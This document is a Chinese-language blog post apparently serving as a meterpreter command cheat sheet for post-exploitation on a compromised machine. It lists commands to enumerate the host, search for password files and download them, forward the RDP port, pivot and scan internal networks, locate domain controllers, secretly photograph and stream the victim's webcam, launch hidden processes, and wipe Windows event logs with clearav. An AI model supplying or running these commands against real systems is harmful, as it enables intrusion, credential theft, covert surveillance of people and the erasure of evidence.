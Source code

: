 ﻿---
layout: post
title: meterpreter操作命令大全
date: 2019-09-19
categories: blog
tags: [meterpreter]
description: meterpreter操作命令大全
---

######基本命令
>`getuid`查看权限
`sysinfo`查看系统信息
`ipconfig`
`netstat -ano`
`arp`
`route`
`getproxy`
`ps`
`idletime`查看主机闲置时间
`shell`进入cmd
`pwd`
`ls`
`cd`
`search -f *pass*`查找文件
`cat`
`upload /tmp/hack.txt C:\\lltest`上传
`download c:\\lltest\\lltestpasswd.txt /tmp/`下载
`edit`
`mkdir`
`rm`
`lpwd`查看本地目录
`lls`
`lcd`
######端口转发
>`portfwd add -l 6666 -p 3389 -r 127.0.0.1 #将目标机的3389端口转发到本地6666端口`
######内网扫描
>autoroute添加路由
>`run autoroute -s 192.168.17.0/24`添加到目标环境网络
>`run autoroute –p`查看添加的路由
>
>`run post/windows/gather/arp_scanner RHOSTS=192.168.159.0/24`
>`run auxiliary/scanner/portscan/tcp RHOSTS=192.168.159.144 PORTS=3389`
>
>`run post/windows/gather/checkvm`查看被控机器是否虚拟机
>`run post/linux/gather/checkvm`是否虚拟机
>`run post/windows/gather/enum_applications`查看安装软件信息
>`run post/windows/gather/enum_patches`查看补丁
>`run post/windows/gather/enum_domain`查找域控
######webcam
>`webcam_list`查看摄像头
`webcam_snap`拍照
`webcam_stream`摄像头直播
######执行文件
>`execute -H -i -f cmd.exe ` 创建新进程cmd.exe，-H不可见，-i交互
`execute -f notepad.exe`
####清除日志
>`clearav `清除windows中的应用程序日志、系统日志、安全日志












